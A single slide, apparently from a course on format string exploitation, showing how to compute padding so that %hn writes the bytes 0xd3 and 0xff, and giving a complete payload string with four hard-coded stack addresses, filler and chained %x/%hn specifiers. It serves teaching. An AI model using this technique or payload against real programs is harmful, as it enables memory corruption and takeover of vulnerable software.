

# Format String Exploitation
To write a value that ends in  0xd3 (211) we need to produce 211 - 120 = 91 characters:
%91x%hn
To write a value that ends in 0xff (255) we need to produce
255 - 211 = 44 characters:
%44x%hn
Since the last value is the same we can simply repeat: %hn
Final string:
\xbc\xce\xff\xffAAAA\xbd\xce\xff\xffBBBB\xbe\xce\xff\xff\xbf\xce\xff\xff%20x%20x%28x%28x%hn%91x%hn%44x%hn%hn